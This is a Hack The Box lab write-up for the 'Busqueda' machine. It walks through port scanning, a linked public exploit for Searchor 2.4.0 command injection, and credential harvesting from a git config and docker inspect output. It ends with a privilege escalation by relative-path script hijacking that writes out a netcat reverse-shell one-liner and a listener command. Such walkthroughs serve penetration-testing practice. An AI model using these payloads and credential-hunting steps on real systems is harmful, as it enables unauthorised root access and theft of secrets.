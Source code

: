 ```yaml
---
title: HTB-Busqueda
date: 18-08-2025 01:30:00
categories:
  - Writeups
  - HTB
tags:
  - Enumeration
  - git
  - python
  - docker
---
```

Target - 10.129.228.217

Do nmap on target with  - nmap -F {target} to see open ports.

![](https://cdn.vkie.pro/Pasted%20image%2020250819010641.png)

As seen in nmap results, we can see ssh and 80 port is open, when we navigate to 80, we found the url changed to searcher.htb

![](https://cdn.vkie.pro/Pasted%20image%2020250819010724.png)

so lets try adding into /etc/hosts file.

As soon as we added the IP and hostname in hosts file, refresh the browser and we got page as below

![](https://cdn.vkie.pro/Pasted%20image%2020250819011005.png)

as seen in footer, it says "Powered by Flask and searchor 2.4.0"

so google like " Searchor 2.4.0 poc", and i got this [link](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection)

As per the instructions given, follow the steps and u will get shell

![](https://cdn.vkie.pro/Pasted%20image%2020250819021759.png)
![](https://cdn.vkie.pro/Pasted%20image%2020250819021915.png)
![](https://cdn.vkie.pro/Pasted%20image%2020250819022024.png)

Enumerate the folders which we landed at first

![](https://cdn.vkie.pro/Pasted%20image%2020250819022056.png)

As noticed git folder exists in /var/www/app/, check for git configs files

![](https://cdn.vkie.pro/Pasted%20image%2020250819022139.png)

cd to ".git" folder and read "config" file

![](https://cdn.vkie.pro/Pasted%20image%2020250819022358.png)

so once again add this host in /etc/hosts file to access the url

visit "gitea.searcher.htb" and login with user "cody" and respective password.

explore the repos, we noticed administrator user exists, and his repos are private.

Also try login SSH tried login svc user with password found above, and it worked

for to privesc type sudo -l to check possiblities

![](https://cdn.vkie.pro/Pasted%20image%2020250819024015.png)

as shown above screenshot user can run those commands

![](https://cdn.vkie.pro/Pasted%20image%2020250819024123.png)

try docker-ps, docker-inspect, full-checkup

![](https://cdn.vkie.pro/Pasted%20image%2020250819024207.png)

output will be json so pipe it to the tool jq for easy reading


![](https://cdn.vkie.pro/Pasted%20image%2020250819024340.png)

from the output, we can see the creds are in env variables

try login gitea again with administrator username and with this password we got, check the private repos.

![](https://cdn.vkie.pro/Pasted%20image%2020250819025712.png)

upon checking the codes, we can see full-checkup runs full-checkup.sh, basically, The `system-checkup.py` script allows actions like `docker-ps`, `docker-inspect`, and `full-checkup`.

When the **`full-checkup` action** is triggered, the script runs a shell script called **`full-checkup.sh`**. 

Importantly, the script calls `full-checkup.sh` via a **relative path** (`./full-checkup.sh`) instead of an absolute one (e.g., `/opt/scripts/full-checkup.sh`). This means that if we place a malicious `full-checkup.sh` in any directory we can write to, and then run `system-checkup.py` from that directory, the script will execute **our malicious version** instead of the intended one — effectively giving us code execution with the same privileges the script runs under (in this case, root).

```bash
echo -en "#! /bin/bash\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [your ip] 9001 >/tmp/f" > /tmp/full-checkup.sh
```

run this to create our custom "full-checkup.sh" in tmp directory

listen using below command

```bash
nc -nvlp 9001
```

run "chmod +x" to make our sh script executable

now run the system-checkup command as we got output from sudo -l

cd to tmp directory and run this below

```bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

Thats it we got root shell as shown in below screenshot

![](https://cdn.vkie.pro/Pasted%20image%2020250819031013.png)


Thanks for the time, See you in next post!!
